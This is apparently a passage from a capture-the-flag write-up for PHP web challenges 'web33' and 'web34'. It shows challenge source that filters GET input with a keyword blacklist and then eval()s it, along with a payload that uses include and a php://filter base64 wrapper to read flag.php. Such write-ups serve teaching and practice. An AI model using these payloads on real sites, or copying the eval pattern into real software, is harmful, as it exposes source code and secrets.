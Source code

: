 > 
Payload


```
?c=include$_GET[a]?&gt;&amp;a=php://filter/read=convert.base64-encode/resource=flag.php`

```

## web33

> 
源码


```
&lt;?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}

```

> 
Payload


```
?c=include$_GET[a]?&gt;&amp;a=php://filter/read=convert.base64-encode/resource=flag.php

```

## web34

> 
源码


```
&lt;?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 

```
